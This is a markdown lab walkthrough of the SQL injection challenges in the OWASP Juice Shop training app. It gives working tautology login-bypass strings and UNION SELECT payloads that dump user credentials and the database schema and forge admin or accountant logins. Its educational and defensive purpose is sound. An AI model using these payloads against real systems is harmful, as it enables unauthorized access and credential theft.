

# SQL Injection

This web application is vulnerable to SQL injection attacks specifically reshaping the SQL queries using the following techniques:
* Tautology based injection
* UNION select injection

## SQL injection challenges in OWASP juice-shop web app

|Name   |Description   |Difficulty   |
|---|---|---|
|Login Admin   |Log in with the administrator's user account   |⭐⭐   |
|Login Bender   |Log in with Bender's user account   |⭐⭐⭐   |
|Login Jim   |Log in with Jim's user account   |⭐⭐⭐   |
|Login Chris   |Log in with Chris' erased user account   |⭐⭐⭐   |
|Christmas Special   |Order the Christmas special offer of 2014   |⭐⭐⭐   |
|Database Schema   |Exfiltrate the entire DB schema definition via SQL Injection   |⭐⭐⭐   |
|User Credentials   |Retrieve a list of all user credentials   |⭐⭐⭐⭐   |
|Ephemeral Accountant   |Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user   |⭐⭐⭐⭐   |
|   |   |   |


Before a hacker can  start exploiting an insecure application, s/he must figure out how the application handles **bad** input first.

The best and original way of testing is with the single quote technique. Using the tick technique, two things should happen:

1. The input is sanitized or cleaned and returns a nice error message.

1. There is no sanitization we get something like below or something blatant or nothing.

## Tick Technique

First enter just an apostrophe in the Email input field. What errors do we get? Then try putting a tick at end of an existing user email like below.


The error response is crucial in determining the attack.

What will the attacker see on form page by inputting a single quote? It depends on how the application handles errors in the database. In this case, something nondescript. But what is remarkable is that there are no errors like, "**invalid email address and password**". But... we are seeing SQLite errors. Now the hacker also knows that the input is not being sanitized. And if there is no sanization, there's potential exploitation.



1. On the juice-shop app login page, type
   ```
   ' or true;
   ```
    semicolon is used to end a sql statement
   ```
   ' or true -- lkjlsdjlfkjsfsdlsjdlfjs
   ```
   ```
    dkfdk' or true -- blahblah
   ```

1. go to code [login code](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js)

    We expose the code above and the backend sqlite on the web interface.

1. show juiceshop.sqlite

1. By the time the web app sends the query to sqlite, it looks like this.
    ```
    SELECT * FROM Users WHERE email='dkfdk' or true -- blahblah AND password='somehashedpassword'
    ```

    Due to the inclusion of a comment delimiter in the email field the password portion of the query will be ignored.

1. in fact, you can input this with any emails, like:
    ```
    support@juice-sh.op'; -- active
    chris.pike@juice-sh.op'; -- inactive
    ```
**Make everything else irrelevant following the semicolon as it closes the SQL statement**

## UNION based
### **List all products (whether active or not)**
    ')); or ')) --
This includes all products and **')); or ')) --** made other qualifications irrelevant.

### **List all users**
```
anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--

http://localhost:3000/rest/products/search?q=anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```
the nonsensical text after __q=__ is a technique to make the api search for that nonexistent product. but the sql code proceeds with the payload.

### **Voila the schema**
```
http://localhost:3000/rest/products/search?q=sldjfwo')) UNION SELECT sql,2,3,4,5,6,7,8,9  FROM sqlite_master--

```

### **ephemeral accounts**

when you register a new account, from the inspector we know that the fields (or keys) are used.


start with
```
' union select 1;
```
It is universal to return from this temp table the 1 record with a single field that has value 1.
From the image above, we see that we need at least 10 columns. Try:

```
' union select 1,1,1,1,1,1,1,1,1,1;
```

It needs exactly 12 columns. We see now that we do not get any SQL errors, but we get a new prompt page.


We need to experiment a little bit to find out where this  totpSecret should be. But looking at the schema, you'll note that totpSecret is 5th from the last. Try:


```
' union select 1,1,1,1,1,1,1,'' as 'totpSecret',1,1,1,1;
```

Obviously, we can log in with just the totpSecret filled in for this application. Let's try adding an email.

```
' union select * from (select 1,1,'nem@akdm.nt' as 'email',1,1,1,1,'' as 'totpSecret',1,1,1,1);
```
or even add a role:
```
' union select 1,1,1,1,'admin' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
Get points by inserting email of fake accountant:
```
' union select 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
How does it look when sent to database?
```
SELECT * FROM users WHERE email = '' UNION SELECT * FROM (SELECT 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1)
```

## sqlite_master

The SQLite database holds the database schema in the table sqlite_master.
Table definition

The table definition is as follows:

    Type : Type is Index or Table.
    name : Index or table name
    tbl_name : Name of the table
    rootpage : rootpage, internal to SQLite
    sql : The SQL statement, which would create this table.

## API endpoint


* [SQL code used in search](https://github.com/bkimminich/juice-shop/blob/master/routes/search.js)


## How to avoid sql injection

1. [protection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)